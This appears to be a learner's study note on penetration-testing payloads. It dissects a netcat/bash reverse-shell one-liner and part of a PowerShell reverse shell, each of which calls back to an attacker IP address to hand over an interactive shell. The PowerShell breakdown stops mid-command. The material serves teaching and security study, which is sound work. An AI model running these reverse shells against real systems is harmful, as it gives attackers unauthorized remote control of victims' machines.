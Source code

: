 ==Note: This may need to be run with escalated privileges.==
## Introduction to Payloads
- on the internet in general,  a payload is the message sent (a packet)
- in cybersecurity, the payload is the malicious command or code sent across the internet in order to exploit vulnerabilities
### One-liners Examined
#### Netcat/Bash Reverse Shell One-liner (for Linux mostly)
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
- this command serves a bash shell on a Linux system
```shell-session
rm -f /tmp/f; 
```
- forcefully removes `/tmp/f` if it exists
- `;` is used to execute the commands sequentially
```shell-session
mkfifo /tmp/f; 
```
- this makes a fifo named pipe
```shell-session
cat /tmp/f | 
```
- pipes the contents of the `/tmp/f` to the input of the next command
```shell-session
/bin/bash -i 2>&1 | 
```
- specifies the command language interpreter using `-i` for an interactive shell and then the output is redirected to the input of the next command
```shell-session
nc 10.10.14.12 7777 > /tmp/f  
```
- this uses netcat to send a connection to our attack host that is listening on port 7777 with the output redirected to `/tmp/f`
#### PowerShell One-Liner
![[Pasted image 20241204144242.png]]
- this is a reverse shell for PowerShell
```cmd-session
powershell -nop -c 
```
- this calls PowerShell with no profile `-nop` and executes the command block that follows `-c`
```cmd-session
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```
- this binds the TCP socket to the server
```cmd-session
$stream = $client.GetStream();
```
- this sets the command stream and facilitates network communication
```cmd-session
[byte[]]$bytes = 0..65535|%{0}; 
```
- this is an empty byte array stream that will be redirected to the attack box
```cmd-session
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```
- this defines the stream parameters
```cmd-session
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```
- this is the byte encoding
```cmd-session
$sendback = (iex $data 2>&1 | Out-String ); 
```
- this is an invoke-expression `iex` that makes everything in `$data` to be run locally on the target